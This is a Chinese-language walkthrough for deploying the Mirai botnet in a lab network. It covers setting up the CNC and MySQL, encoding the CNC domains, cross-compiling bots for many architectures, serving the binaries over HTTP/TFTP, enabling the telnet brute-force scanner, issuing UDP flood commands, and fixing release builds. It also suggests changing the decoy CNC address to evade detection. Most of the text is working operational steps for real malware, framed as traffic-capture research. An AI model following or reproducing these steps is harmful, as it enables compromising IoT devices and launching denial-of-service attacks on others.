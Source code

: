 服务器配置：
一台ubuntu服务器：CNC+MYSQL
一台ubuntu服务器：LOADER(REPORT)
一台ubuntu服务器：bot（作为感染机，和cnc进行通讯产生流量，并且扫描其他服务器）
一台windows server 2008R服务器：用于域名映射（必须要做，因为我们用内网需要配置DNS）

首先对每个ubuntu服务器进行初始化
1.	如果是virtualbox安装增强功能，可以自动调节窗口大小
2.	先进行更新：sudo apt update
3.	安装vim,ifconfig,ssh命令：sudo apt-get install vim net-tools openssh-server
4.	安装telnet：sudo apt-get install openbsd-inetd telnetd -y
5.	安装编译环境：sudo apt-get install git gcc golang electric-fence build-essential

搭载一个DNS服务器，配置域名
搭建详情看DNS服务器搭建
cnc.mirai.com 192.168.56.101
loader.mirai.com 192.168.56.102

配置CNC服务器：
下载mirai:
git clone https://github.com/jgamblin/Mirai-Source-Code
编译加密工具
cd Mirai-Source-Code/mirai/tools && gcc enc.c -o enc.out
编译域名
./enc.out string cnc.mirai.com
\x41\x4C\x41\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F\x22
./enc.out string loader.mirai.com
\x4E\x4D\x43\x46\x47\x50\x0C\x4F\x4B\x50\x43\x4B\x0C\x41\x4D\x4F\x22
更改代码：
vim bot/tables.c
 
修改 ./dlr/main.c
 
将 IP 修改为 Loader 服务器的 IP：Loader_IP
修改 ./loader/src/main.c
 
这两个 IP 是 Loader 要绑定的 IP，将 IP 修改为 Loader 服务器的 IP
 
这两个 IP 分别是提供 HTTP 服务和 TFTP 服务的 IP 
这里需要注意的是，如果你配置有单独的 HTTP 服务器或者 TFTP 服务器，那么 IP 要填写对应的服务器地址，我这里都一样是因为把这些服务都放在了一台服务器上。
修改mirai/bot/resolv.c更换DNS地址是刚刚配置的域名服务器静态地址
 
安装mysql。详情见ubuntu安装环境文档
启动mysql： systemctl start mysql(这边前提是装好了数据库，并且修改了root密码)
执行数据库脚本：
cat db.sql | mysql -uroot -proot
mysql -uroot -proot mirai
INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
Exit
这一系列操作可以看到user表有一记录：
 

编辑cnc下的main.go：vim ../mirai/cnc/main.go
 
创建cross-compile-bin
进入mirai根目录下创建文件夹
mkdir cross-compile-bin
 
进入文件夹cd cross-compile-bin
下面按条执行下载（记得用root权限）
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i686.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-x86_64.tar.bz2
进入scripts， cd ../scripts
修改脚本，vim cross-compile.sh
由于我没找到armv6l包，因此我把脚本中armv6l的语句注释了，详情见下图：
 
保存后启动执行：sudo ./cross-compile.sh
会提示：Install mysql-server and mysql-client (y/n)?输入 n不安装

编辑环境
vim ~/.bashrc
在最后面添加：
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export GOPATH=$HOME/go
 
创建文件夹，并且刷新环境：
mkdir ~/go
source ~/.bashrc

安装go环境驱动：
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords
 
启动mirai脚本
cd ~/Mirai-Source-Code-master/mirai/
./build.sh debug telnet
将输出debug的二进制程序，打印是否可以连接CNC等信息，洪水的状态等，编译到./mirai/debug folder文件夹下面
 
./build.sh release telnet 输出生产的bot二进制文件

启动cnc
用root登入CNC
在prompt.txt的路径下启动CNC服务器：./debug/cnc
然后新开一个shell，通过telnet连接cnc主机23端口
telnet 192.168.56.104 23
 
直接回车进入登录界面，输入数据库中用户名和密码（用户名：mirai-user，密码：mirai-pass）
 
登入成功后
 
此时已经登录主控端程序

配置loader服务器
配置 HTTP: sudo aptitude install apache2
aptitude install apache2
在 apache 根目录建立bins文件夹，将编译出的不同平台的 bot 病毒放入，以供下载。
配置 TFTP
apt-get install -y tftpd-hpa
vim /etc/default/tftpd-hpa
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/tftpboot"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
service tftpd-hpa restart

利用xftp工具将cnc的代码直接拷贝到loader服务器上
由于拷贝的代码，所有的脚本没有执行权限，需要输入命令
sudo chmod +x *

cd ~/Mirai-Source-Code-master/loader
./build.sh
构件loader: ./loader
获取监听到的爆破账号：在promot文件下 sudo ./debug/scanListen
在之前teble.c中配置的report服务器中运行./scanListen，默认监听48101端口，该服务将接收bot爆破出的结果。
cd /Mirai/mirai/debug && ./scanListen
scanner成功爆破出结果时，会通过resolv模块寻找report服务器所在IP，然后通过report模块发送受害者的信息，如图：
 
此时report-server接收到数据如下
 

构建bot
将cnc里的mirai代码拷贝至bot服务器，然后赋予脚本执行权限
Sudo ./debug/mirai.dbg
如果成功连接，则会显示如下界面
 
此时CNC主控端会显示bot数量
 

到此我们要的东西已经完成。剩下的是用wireshark抓包工具抓取流量
攻击指令
提示参数：?
这里?可以理解为一个占位符，解释当前位置参数的意义。
输入?获取攻击命令
 
输入udp ?查看下一个参数的提示，然后每次输入一个参数之后都可以使用?查看进一步提示。
 
用户通过CNC执行攻击指令之后，bot会收到CNC命令并对目标发起攻击：
 
同时，在CNC的Mysql库中也可查询到攻击历史：
 
4.telnet爆破
之前我们使用./build debug telnet作为测试环境查看debug信息输出，并已成功使用CNC控制Bot发起攻击。现在我们来关注Mirai感染并控制Bot的流程。
Bot扫描网段内开启telnet的设备，并使用内置字典爆破之，将成功之后的信息返回
该功能在main.c实现，源码默认在Debug模式下关闭了scanner的功能，为方便调试，我们需要修改源码：
/Mirai/mirai/bot/main.c line 158
 
将#ifndef DEBUG和#endif两行注释掉
重新编译并运行，就可以看到scanner的调试信息，注意要以root权限运行
 

Mirai 为了增加安全性，在源码中使用了一个假的主控地址，用来迷惑分析人员，真实的地址是从代码中进行解密并请求 DNS 解析进行获取的，假地址位于 ./mirai/bot/includes.h中，如果对 Mirai 进行变异，可以修改这个地址，应该可以规避一些简单的检测
Mirai 在 ./mirai/bot/resolv.c 中定义了 DNS 地址，默认是请求 Google 的 DNS 服务器 8.8.8.8 进行地址解析。这个 DNS 地址可以修改，如果是在实验室内网做实验，无法使用 Google 服务的情况下，应该修改成实验室使用的 DNS，不然可能会造成实验无法成功。
Mirai 的 debug 编译和 release 编译有所区别，release 除了不输出各种信息外，其流程也并不完全一样，比如 release 对 Table 的使用并不加锁，运行 Debug 版的时候，信息输出如下：

DEBUG MODE YO
[main] We are the only process on this system!
listening tun0
[main] Attempting[ to kicollennr] eTrcyint g tto ko illCN pCort 23
[killer] Finding and killing processes holding port 23
Failed to find inode for port 23
[killer] Failed to kill port 23
[killer] Bound to tcp/23 (telnet)
[resolv] Got response from select
[resolv] Found IP address: f3251c73
Resolved xxxx.xxx.xx to 1 IPv4 addresses
[main] Resolved domain
[main] Connected to CNC. Local address = -335435584
[killer] Detected we are running out of `/Mirai/mirai/debug/mirai.dbg`
[killer] Memory scanning processes
[table] Tried to access table.11 but it is locked
Got SIGSEGV at address: 0x0
其中显示想使用 table.11 ，但是并没有解密，这里应该修改 killer.c的 172 行，在后面加入 table_unlock_val(TABLE_KILLER_STATUS);，在 185 行后面加入 table_lock_val(TABLE_KILLER_STATUS);，重新编译运行，这个报错就会消失。
Bot 的扫描
在 debug 模式下，是观察不到扫描现象的，这是因为源码在 debug 模式中关闭了扫描功能。相关代码在 main.c 中。

#ifndef DEBUG
    if (fork() > 0)
        return 0;
    pgid = setsid();
    close(STDIN);
    close(STDOUT);
    close(STDERR);
#endif

    attack_init();
    killer_init();
#ifndef DEBUG
#ifdef MIRAI_TELNET
    scanner_init();
#endif
#endif
可以看到，不是 debug 模式的时候，才会初始化扫描器，所以将 #ifndef DEBUG和#endif注释掉，重新编译，即可开启扫描功能。
table 初始化的启动方式
实验时一般使用 debug 模式编译和实验，但是如果使用 release 版本，就会发现不稳定，甚至无法成功，这是因为 debug 和 release 的初始化方式和控制方式不一样，release 采用信号控制，并且在函数入口的寻找上做了混淆，主要函数是 unlock_tbl_if_nodebug，如果使用 release 版本，可以做一下修改：

#ifndef DEBUG
    (obf_funcs[fold])();
    matches = util_strcmp(argv0, buf_dst);
    util_zero(buf_src, sizeof (buf_src));
    util_zero(buf_dst, sizeof (buf_dst));
    return matches;
#else
    table_init();
    return TRUE;
#endif
将这段代码里面的 debug 模式和 release 模式调换。
关于杀灭设备中的其他病毒
Mirai 具有独占性，一旦Mirai 感染了某一个设备，它会寻找设备上的其他僵尸网络，并将其杀掉，以让自己成为这个设备的唯一控制者，其杀死竞争者的相关代码位于 killer.c 中。经过解密，我发现它给其他 bot 的特征的定义是：

REPORT %s:%s
HTTPFLOOD
LOLNOGTFO
zollard
GETLOCALIP
也就是说，如果在进程路径名中发现了以上这些字符串，则杀掉那个进程。
此外，Mirai 对自身进程名做了伪装，每次运行 Mirai，其进程名字都是随机的字符串，所以如果对 Mirai 进行变异，并且想杀掉 Mirai 的话，并不能用 Mirai 检测其他bot的方法，来检测 Mirai 自身。
Mirai 可能是半成品
从 Mirai 的编译脚本和代码中分析，Mirai 定义了 TELNET 和 SSH 两个编译选项，并且代码中有相关的宏开关，但是从目前的代码看，并未发现 SSH 猜解和登陆的相关功能。
个人猜测 Mirai 原本打算开发 TELNET 和 SSH 两个功能，但是目前只完成了一半，或许是只完成了一半，或许是 SSH 的部分原作者并未放出，真实情况不得而知。

